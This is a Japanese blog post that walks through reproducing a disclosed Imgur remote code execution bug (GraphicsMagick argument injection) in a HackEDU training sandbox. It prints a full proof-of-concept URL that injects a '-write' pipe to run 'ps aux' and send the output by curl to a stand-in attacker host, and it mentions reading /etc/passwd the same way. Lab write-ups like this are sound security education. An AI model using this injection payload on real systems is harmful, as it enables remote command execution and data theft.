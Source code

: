 ```yaml
---
description: 'Mar 8, 2019'
---
```


# HackerOneに報告された脆弱性をHackEDUで再現する

サイバーセキュリティに関する体験型学習サービスを提供する「[HackEDU](https://hackedu.io/)」が[HackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした](https://www.hackerone.com/blog/Test-your-hacking-skills-real-world-simulated-bugs)。 HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。

今回はバグハンターのneex氏が2017年に報告したImgurという画像共有サイトでのRCE（[\#212696](https://hackerone.com/reports/212696)）を取り上げる。neex氏が脆弱性を発見した際の手順を再現しながら詳細を学んでいく。

## ImgurでのRCEの再現

HackEDUの利用者はブラウザからサンドボックス環境にアクセスし、ページ内に用意された仮想ブラウザと仮想プロキシを使って脆弱性を再現する。以下のページが[ImgurでのRCEのサンドボックス環境](https://hackedu.io/hacktivity/5f8e247b-98bc-4b7a-aa97-472dcc34a6f8)である。仮想ブラウザ上の1つ目のタブにImgurを再現したImgerというサイトが、2つ目にコールバックを確認するためのタブが開かれている。

![](../.gitbook/assets/top.png)

neex氏のレポートによると脆弱性は画像編集機能で見つかっている。Imgurでは画像処理ツールとして人気の高いImageMagickとGraphicsMagickのどちらかが利用されているとneex氏は推測し、どちらのツールにも存在する `-rotate` オプションを用いて調査を始めている。

サンドボックス環境では画像編集時のHTTPリクエストがPOSTメソッドで送られるが、GETメソッドに変更しても問題なく処理される。今回はレポートを忠実に再現するため、仮想プロキシでインターセプトしたHTTPリクエストをGETメソッドに変更した上でパラメータの値を書き換える。

![](../.gitbook/assets/intercept.png)

Imgurでは画像編集時に送信される `y` パラメータの値を画像処理ツールのコマンドライン引数に挿入していたため脆弱性が生じた。サンドボックス環境でも `y` パラメータの値に `-rotate 90` を追加すると画像が90度回転する。

![](../.gitbook/assets/rotate.png)

さらなる調査の結果、ImgurではGraphicsMagickが利用されているとneex氏は確信し、`-write` オプションで任意のコマンドを実行できる仕様を用いてRCEを実証した¹。PoCでは `y` パラメータから挿入した `ps` コマンドの実行結果を `curl` コマンドで外部のサーバーへ送信している。

サンドボックス環境では `http://attacker-callback.com:9000` へのコールバックを仮想ブラウザの2つ目のタブで確認できる。2つ目のタブを事前に開いてリッスン状態にしてから、1つ目のタブで以下のURLにアクセスすると `ps` コマンドの実行結果を受け取れる。実際の環境ではスペース（%20）を挿入できなかったためか、neex氏は `${IFS}` を代用して文字を区切っている²。

http://imger.com/edit/process?imageid=cd4caa87977d1469cfeedf5cce8e2992.jpg&a=crop&x=95&y=41%20-write%20\|ps${IFS}aux\|curl${IFS}http://attacker-callback.com:9000${IFS}-d${IFS}@-&w=768&h=328&random=asdf

![](../.gitbook/assets/callback.png)

## HackEDUでのHTTPリクエストの再送

今回取り上げた脆弱性はGETパラメータでも再現できたため、仮想ブラウザのアドレスバーからパラメータ操作が可能であった。しかしPOSTパラメータでの脆弱性を検証する場合、HTTPリクエストを何度もインターセプトして書き換えることになる。サンドボックス環境の仮想プロキシにはHTTPリクエストの再送機能が搭載されていないため、愛用のローカルプロキシでの再送を試みる。

サンドボックス環境とはいえ仮想ブラウザから発生するHTTPリクエストはHackEDUのサーバーに送信される。そのためサンドボックス環境のページを開いているブラウザでローカルプロキシを経由すればHTTPリクエストを操作できる。例えばBurp SuiteのRepeaterで以下のHTTPリクエストを再送すると、仮想ブラウザの2つ目のタブに `/etc/passwd` の内容が表示される。

![](../.gitbook/assets/burp.png)

## 所感

脆弱性のレポートを読むだけと、実際に再現まで確認するとでは学びの量が違う。レポートに記載されていない別のパターンを試すことで新たな発見にもつながるし、記憶にも残りやすい。ソフトウェア製品の脆弱性の場合、修正前の古いバージョンを入手できれば再現は可能である。しかしWebアプリケーションの脆弱性の場合、サイト運営者でなければ修正後の再現は極めて難しい。HackEDUのようなサービスにより実在した脆弱性を容易に再現できるようになれば、バグハンターだけでなく開発者の学びにも役立つだろう。

今回は取り上げなかったが、HackEDUはWebアプリケーションの各種脆弱性のサンドボックス環境やCTF形式の問題も提供している。[無料アカウントではSQLインジェクションのみ](https://hackedu.io/demo)だが、脆弱性の再現から各プログラミング言語での修正まで体験できるコースもある。また年間$750の有料アカウントになれば[CVEが割り振られたソフトウェア製品の脆弱性](https://hackedu.io/vulnerabilities)や、バッファオーバーフローのような脆弱性のサンドボックス環境も利用できるようになる。有料アカウントは7日間の無料体験ができるので、まずは試用してから購入を検討したい。



¹ [http://www.graphicsmagick.org/GraphicsMagick.html\#details-write](http://www.graphicsmagick.org/GraphicsMagick.html#details-write)  
² [https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution)

